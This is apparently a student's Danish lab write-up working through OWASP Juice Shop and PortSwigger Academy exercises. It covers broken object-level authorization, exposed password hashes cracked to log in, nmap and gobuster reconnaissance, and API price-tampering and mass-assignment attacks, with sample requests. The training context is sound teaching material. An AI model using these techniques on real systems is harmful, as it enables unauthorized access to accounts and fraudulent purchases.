

# Uge 39 - Opsamlings øvelser

### [Juice Shop BOLA- og EDE-øvelser](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/JuiceShop/2_Exploiting_BOLA_And_Excessive_Data_Exposure.md#broken-object-level-authorization-and-excessive-data-exposure)

For at gennemføre øvelsen opretter jeg to brugere i Juice shop.

BrugerA (abruger@test.com, aw........)  
BrugerB (bbruger@test.com, aw........)

#### Øvelse 1 
I første øvelse skal jeg svare på om bruger B, kan tilgår bruger A's shopping kurv.

Jeg begynder med at logge ind som bruger a og placerer nogle varer i kurven. I Burp Suite kan jeg se at når jeg tilføjer varer sendes der følgende GET-request `GET /rest/basket/6 HTTP/1.1`  
6-tallet indikerer et unikt ID. 

Jeg forsøger så at logge ind med bruger B. Her kan jeg se at mit basket ID er 7. Jeg sender requesten `GET /rest/basket/7 HTTP/1.1` til repeateren, og ændrer 7-tallet, til et 6-tal.  
Selvom bruger B ikke er autoriseret til det, modtages der et response med indholdet af Bruger A's indkøbskurv:



#### Øvelse 2

I denne øvelse skal jeg forsøge at finde information omkring andre brugere. Opgaveteksten fortæller at informationen kan findes første gang man besøger "this page".  
Informationen kan være et password der kan crackes gennem https://crackstation.net/.

Siden er "Photo Wall". Ved første besøg modtages et response indeholdende info omkring brugerne der har postet billeder:  
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: application/json; charset=utf-8
ETag: W/"1822-j9jizYrVM3CX9IdcDc4aVxGyyLA"
Vary: Accept-Encoding
Date: Mon, 23 Sep 2024 08:43:46 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 6178

{"status":"success","data":[
    
    {"UserId":13,"id":1,"caption":"😼 #zatschi #whoneedsfourlegs","imagePath":"assets/public/images/uploads/😼-#zatschi-#whoneedsfourlegs-1572600969477.jpg","createdAt":"2024-09-23T06:27:23.124Z","updatedAt":"2024-09-23T06:27:23.124Z","User":{"id":13,"username":"","email":"bjoern@owasp.org","password":"9283f1b2e9669749081963be0462e466","role":"deluxe","deluxeToken":"efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4","lastLoginIp":"","profileImage":"assets/public/images/uploads/13.jpg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.763Z","updatedAt":"2024-09-23T06:27:19.763Z","deletedAt":null}},
    
    {"UserId":4,"id":2,"caption":"Magn(et)ificent!","imagePath":"assets/public/images/uploads/magn(et)ificent!-1571814229653.jpg","createdAt":"2024-09-23T06:27:23.124Z","updatedAt":"2024-09-23T06:27:23.124Z","User":{"id":4,"username":"bkimminich","email":"bjoern.kimminich@gmail.com","password":"6edd9d726cbdc873c539e41ae8757b8c","role":"admin","deluxeToken":"","lastLoginIp":"","profileImage":"assets/public/images/uploads/defaultAdmin.png","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.760Z","updatedAt":"2024-09-23T06:27:19.760Z","deletedAt":null}},
    
    {"UserId":4,"id":3,"caption":"My rare collectors item! [̲̅$̲̅(̲̅ ͡° ͜ʖ ͡°̲̅)̲̅$̲̅]","imagePath":"assets/public/images/uploads/my-rare-collectors-item!-[̲̅$̲̅(̲̅-͡°-͜ʖ-͡°̲̅)̲̅$̲̅]-1572603645543.jpg","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":4,"username":"bkimminich","email":"bjoern.kimminich@gmail.com","password":"6edd9d726cbdc873c539e41ae8757b8c","role":"admin","deluxeToken":"","lastLoginIp":"","profileImage":"assets/public/images/uploads/defaultAdmin.png","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.760Z","updatedAt":"2024-09-23T06:27:19.760Z","deletedAt":null}},
    
    {"UserId":21,"id":4,"caption":"Welcome to the Bee Haven (/#/bee-haven)🐝","imagePath":"assets/public/images/uploads/BeeHaven.png","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":21,"username":"evmrox","email":"ethereum@juice-sh.op","password":"2c17c6393771ee3048ae34d6b380c5ec","role":"deluxe","deluxeToken":"b49b30b294d8c76f5a34fc243b9b9cccb057b3f675b07a5782276a547957f8ff","lastLoginIp":"","profileImage":"assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.765Z","updatedAt":"2024-09-23T06:27:19.765Z","deletedAt":null}},
    
    {"UserId":13,"id":5,"caption":"Sorted the pieces, starting assembly process...","imagePath":"assets/public/images/uploads/sorted-the-pieces,-starting-assembly-process-1721152307290.jpg","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":13,"username":"","email":"bjoern@owasp.org","password":"9283f1b2e9669749081963be0462e466","role":"deluxe","deluxeToken":"efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4","lastLoginIp":"","profileImage":"assets/public/images/uploads/13.jpg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.763Z","updatedAt":"2024-09-23T06:27:19.763Z","deletedAt":null}},
    
    {"UserId":13,"id":6,"caption":"Building something literally bottom up...","imagePath":"assets/public/images/uploads/building-something-literally-bottom-up-1721152342603.jpg","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":13,"username":"","email":"bjoern@owasp.org","password":"9283f1b2e9669749081963be0462e466","role":"deluxe","deluxeToken":"efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4","lastLoginIp":"","profileImage":"assets/public/images/uploads/13.jpg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.763Z","updatedAt":"2024-09-23T06:27:19.763Z","deletedAt":null}},
    
    {"UserId":13,"id":7,"caption":"Putting in the hardware...","imagePath":"assets/public/images/uploads/putting-in-the-hardware-1721152366854.jpg","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":13,"username":"","email":"bjoern@owasp.org","password":"9283f1b2e9669749081963be0462e466","role":"deluxe","deluxeToken":"efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4","lastLoginIp":"","profileImage":"assets/public/images/uploads/13.jpg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.763Z","updatedAt":"2024-09-23T06:27:19.763Z","deletedAt":null}},
    
    {"UserId":13,"id":8,"caption":"Everything up and running!","imagePath":"assets/public/images/uploads/everything-up-and-running!-1721152385146.jpg","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z","User":{"id":13,"username":"","email":"bjoern@owasp.org","password":"9283f1b2e9669749081963be0462e466","role":"deluxe","deluxeToken":"efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4","lastLoginIp":"","profileImage":"assets/public/images/uploads/13.jpg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.763Z","updatedAt":"2024-09-23T06:27:19.763Z","deletedAt":null}},
    
    {"UserId":18,"id":9,"caption":"I love going hiking here...","imagePath":"assets/public/images/uploads/favorite-hiking-place.png","createdAt":"2024-09-23T06:27:23.160Z","updatedAt":"2024-09-23T06:27:23.160Z","User":{"id":18,"username":"j0hNny","email":"john@juice-sh.op","password":"00479e957b6b42c459ee5746478e4d45","role":"customer","deluxeToken":"","lastLoginIp":"","profileImage":"assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.764Z","updatedAt":"2024-09-23T06:27:19.764Z","deletedAt":null}},
    
    {"UserId":19,"id":10,"caption":"My old workplace...","imagePath":"assets/public/images/uploads/IMG_4253.jpg","createdAt":"2024-09-23T06:27:23.168Z","updatedAt":"2024-09-23T06:27:23.168Z","User":{"id":19,"username":"E=ma²","email":"emma@juice-sh.op","password":"402f1c4a75e316afec5a6ea63147f739","role":"customer","deluxeToken":"","lastLoginIp":"","profileImage":"assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T06:27:19.764Z","updatedAt":"2024-09-23T06:27:19.764Z","deletedAt":null}}]}
``` 


Denne brugers password hash, kunne dekodes på crackstation:
```json
"UserId":21,"id":4,"caption":"Welcome to the Bee Haven (/#/bee-haven)🐝",
"imagePath":"assets/public/images/uploads/BeeHaven.png","createdAt":"2024-09-23T06:27:23.125Z","updatedAt":"2024-09-23T06:27:23.125Z", 
"User":{"id":21,"username":"evmrox","email":"ethereum@juice-sh.op","password":"2c17c6393771ee3048ae34d6b380c5ec","role":"deluxe","deluxeToken":"b49b30b294d8c76f5a34fc243b9b9cccb057b3f675b07a5782276a547957f8ff","lastLoginIp":"",
"profileImage":"assets/public/images/uploads/default.svg",
"totpSecret":"",
"isActive":true,
"createdAt":"2024-09-23T06:27:19.765Z",
"updatedAt":"2024-09-23T06:27:19.765Z", 
"deletedAt":null
```
Det lykkedes altså at logge ind med følgende credentials:  
Mail: ethereum@juice-sh.op  
Pass: private

Kodeordet er for simpelt, derfor kan hashen crackes.

Med en ny A-B test, afprøver jeg om mine to brugere med samme password, modtager den samme hash værdi:
```json
"UserId":22,"id":11,"caption":"BrugerA-POST","imagePath":"assets/public/images/uploads/brugera-post-1727082389676.jpg","createdAt":"2024-09-23T09:06:29.699Z","updatedAt":"2024-09-23T09:06:29.699Z","User":{"id":22,"username":"","email":"abruger@test.com",
"password":"444ba29247f5560084a2546dc4c179f9",
"role":"customer","deluxeToken":"","lastLoginIp":"undefined","profileImage":"/assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T07:49:16.113Z","updatedAt":"2024-09-23T07:52:24.497Z","deletedAt":null}},

"UserId":23,"id":12,"caption":"BrugerB!!!!","imagePath":"assets/public/images/uploads/brugerb!!!!-1727082426924.jpg","createdAt":"2024-09-23T09:07:06.929Z","updatedAt":"2024-09-23T09:07:06.929Z","User":{"id":23,"username":"","email":"bbruger@test.com",
"password":"444ba29247f5560084a2546dc4c179f9",
"role":"customer","deluxeToken":"","lastLoginIp":"undefined","profileImage":"/assets/public/images/uploads/default.svg","totpSecret":"","isActive":true,"createdAt":"2024-09-23T07:49:38.988Z","updatedAt":"2024-09-23T07:58:41.406Z","deletedAt":null}
```

Det gør de, og det beviser at der ikke anvendes SALT ved hashing af passwords.

---
### [Juice Shop Active Reconnaissance-øvelser](https://github.com/mesn1985/WebApplicationSecurityBasicsLab/blob/main/JuiceShop/3_Active_reconnaissance.md)

#### Øvelse 1
Øvelsen er at udføre en NMAP skanning og fastlægge hvilken port juice shop benytter.  

Jeg kører jeg en NMAP skanning med flagene:
```bash
sudo nmap -sC -sV -v 127.0.0.1
```
-sC = Default script scan
-sV = Service version detection
-v = verbosity

Med den udvidede skanning finder jeg informationer der fortæller mig at port 3000 har en connection til Juice Shop.

```bash
PORT     STATE SERVICE  VERSION
3000/tcp open  ppp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     Feature-Policy: payment 'self'
|     X-Recruiting: /#/jobs
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 23 Sep 2024 06:27:23 GMT
|     ETag: W/"ea4-1921d9035e4"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3748
|     Vary: Accept-Encoding
|     Date: Mon, 23 Sep 2024 09:14:22 GMT
|     Connection: close
|     <!--
|     Copyright (c) 2014-2024 Bjoern Kimminich & the OWASP Juice Shop contributors.
|     SPDX-License-Identifier: MIT
|     --><!DOCTYPE html><html lang="en"><head>
|     <meta charset="utf-8">
|     <title>OWASP Juice Shop</title>
|     <meta name="description" content="Probably the most modern and sophisticated insecure web application">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link id="favicon" rel="icon" type="image/x-icon" href="asset
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,HEAD,PUT,PATCH,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Mon, 23 Sep 2024 09:14:22 GMT
|     Connection: close
|   Help, NCP:
|     HTTP/1.1 400 Bad Request
|_    Connection: close
```


#### Øvelse 2
Her består øvelsen i at anvende GoBuster til at enummerere Juice Shop. Til det skal wordlisten "common.txt" fra SecLists anvendes.
```bash
sudo gobuster dir -u http://127.0.0.1:3000 -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 3748
```
Det giver følgende resultat:
```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.well-known/security.txt (Status: 200) [Size: 475]
/Video                (Status: 200) [Size: 10075518]
/api                  (Status: 500) [Size: 3017]
/api/experiments      (Status: 500) [Size: 3041]
/api/experiments/configurations (Status: 500) [Size: 3071]
/apis                 (Status: 500) [Size: 3019]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/ftp                  (Status: 200) [Size: 11053]
/profile              (Status: 500) [Size: 1154]
/promotion            (Status: 200) [Size: 6586]
/redirect             (Status: 500) [Size: 3119]
/rest                 (Status: 500) [Size: 3019]
/restaurants          (Status: 500) [Size: 3033]
/restore              (Status: 500) [Size: 3025]
/restored             (Status: 500) [Size: 3027]
/restricted           (Status: 500) [Size: 3031]
/robots.txt           (Status: 200) [Size: 28]
/security.txt         (Status: 200) [Size: 475]
/snippets             (Status: 200) [Size: 792]
/video                (Status: 200) [Size: 10075518]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

Resultaterne med statuskoden 200 og 301, gemmes i filen Juiceshop_wordlist.txt.

http://127.0.0.1:3000/ftp giver uautoriseret adgang til sidens filserver.

#### Øvelse 4

I denne øvelse skal juice shop enumerates med wordlisten "swagger.txt"
```bash
sudo gobuster dir -u http://127.0.0.1:3000 -w /usr/share/seclists/Discovery/Web-Content/swagger.txt --exclude-length 3748
```

Det giver et 200 svar på URL'en `/api-docs/swagger.json`  
Den tilføjes til filen Juiceshop-wordlist.txt

Jeg prøver at besøge den nye URL: http://127.0.0.1:3000/api-docs/swagger.json 
Det giver adgang til Swagger UI, hvorfra det er muligt at teste hjemmesidens API og finde dokumentation på API'ets opbygning.

#### Øvelse 5

Jeg kører Gobuster igen, denne gang med wordlisten "quickhits.txt"
```shell
sudo gobuster dir -u http://127.0.0.1:3000 -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt --exclude-length 3748
```

Det giver et hit på /metrics. Besøger man http://127.0.0.1:3000/metrics får man adgang til systeminformationer om webserverens processer og ydeevne. Kan udnyttes til at time et DDOS angreb på det tidspunkt hvor serveren er mest belastet.
#### Øvelse 6
I denne øvelse kører jeg en automatisk sårbarhedsskanning med softwaren ZAP. Jeg støder på et problem hvor ZAP ikke kan udføre en skanning med Ajax Spiderne, da den ikke kan tilgå "chrome headless".  Fejlen er den samme i både WSL og Windows. Fejlen ligger vist umiddelbart i en nylig opdatering af Chrome. Jeg er derfor nødt til at køre scanningen fra Kali Lixux i virtualbox med "firefox headless".  

ZAP finder en sårbarhed der muliggør SQL-Injection. CWE ID: 89

---
### [Portswigger Academy](https://portswigger.net/web-security/learning-paths)

#### Lab: Exploiting an API endpoint using documentation
To solve the lab, find the exposed API documentation and delete `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

1. Jeg logger ind med de udleverede credentials. 
2. Jeg forsøger at tilgå URL'en `laburl/api`
3. Siden findes og jeg kan sende en DELETE metode med brugernavnet "carlos" til /user.
4. Jeg modtager en statuskode 200 og meddelelsen ""status": "User deleted""


---
#### Lab: Finding and exploiting an unused API endpoint
To solve the lab, exploit a hidden API endpoint to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

<u>**Jeg løste ikke denne øvelse uden at måtte kigge walkthroughen igennem**.</u>

1. Jeg åbner hjemmesiden i Burps browser.
2. Jeg logger ind med de udleverede credentials.
3. Jeg vælger produktet "Lightweight l33t leather jacket"
4. I Burp kan jeg se en GET request til /api/products/1/price.  
   I response kan jeg se at prisen er skrevet i JSON:  
```json
{
"price":"$1337.00",
"message":"15,000,000,000+ sold in the last 12 minutes, only 756 remaining!"
}
```
5. Jeg sender førnævnte request til repeateren og ændrer GET metoden til PATCH.
6. Ud fra fejlmeddelelsen kan det udledes at denne Path kun accepterer "application/json" som content type. Så i request header tilføjes denne content-type.
7. I request body, tilføjes {"price":0}, og requesten sendes igen.
8. Ud fra response ser det ud til at det virkede. Tilbage i browseren er det nu muligt at tilføje en jakke til 0 og gennemføre ordren.

#### Lab: Exploiting a mass assignment vulnerability

To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

<u>**Jeg løste ikke denne øvelse uden at måtte kigge walkthroughen igennem**.</u>

1. Jeg åbner hjemmesiden i Burps browser og autentificerer med de udleverede credentials.
2. Det man skulle finde i denne opgave er de to requests der sendes når man trykker "place order" ved checkout. Hhv. en GET og en POST request til /api/checkout.
3. Analyserer man de to requests kan man se at JSON data i response til GET requesten indeholder "chosen discount", osm er sat til 0%.
4. Hvis man sender POST requesten til repeateren og tilføjer delen omkring chosen discount, med 100%, til request body, er det nu muligt at gennemføre købet.
```http
POST /api/checkout HTTP/2
Host: 0adc0054030a32de81d13ac000470047.web-security-academy.net
Cookie: session=nqMb4OIdA6LTleEeX7YYP7KzDCusbK8p
Content-Length: 174
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Content-Type: text/plain;charset=UTF-8
Accept-Language: da-DK,da;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0adc0054030a32de81d13ac000470047.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adc0054030a32de81d13ac000470047.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
    "chosen_discount":{
        "percentage":100
    },
    "chosen_products":[
        {
            "product_id":"1",
            "quantity":1
        }
    ]
}
```
